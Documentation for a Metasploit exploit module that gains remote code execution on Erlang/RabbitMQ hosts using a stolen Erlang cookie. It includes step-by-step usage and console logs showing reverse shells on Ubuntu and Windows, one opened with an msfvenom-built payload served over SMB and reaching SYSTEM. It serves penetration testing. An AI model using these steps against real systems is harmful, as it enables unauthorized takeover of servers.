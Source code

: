 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/unix/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Do set appropriate payload (Unix=cmd/unix/reverse, Windows=cmd/windows/generic)
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (varies per OS)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  MOLKLGXHWQLTGUREBDKI  yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting              Required  Description
   ----  ---------------              --------  -----------
   CMD   \\W.X.Y.Z\BOB\t.exe  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Exploit completed, but no session was created.

--- Impacket SMB Server ---
root@kali:/tmp# msfvenom -p windows/x64/shell_reverse_tcp LHOST=W.X.Y.Z LPORT=3 -f exe -o t.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                 
[-] No arch selected, selecting arch: x64 from the payload                                             
No encoder or badchars specified, outputting raw payload                                               
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: t.exe
root@kali:/tmp# impacket-smbserver BOB .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                      

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                 
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (A.B.C.D,50349)
[*] AUTHENTICATE_MESSAGE (\,DESKTOP-85258BS)
[*] User \DESKTOP-85258BS authenticated successfully                                                   
[*] :::00::4141414141414141

--- Handler ---

root@kali:~# nc -lvp 3
Listening on [0.0.0.0] (family 0, port 3)
Connection from A.B.C.D 50350 received!
Microsoft Windows [Version 10.0.17134.407]
(c) 2018 Microsoft Corporation. All rights reserved.                                                   

C:\Users\667563~1\AppData\Roaming\RabbitMQ>whoami
whoami
nt authority\system

C:\Users\667563~1\AppData\Roaming\RabbitMQ>
```
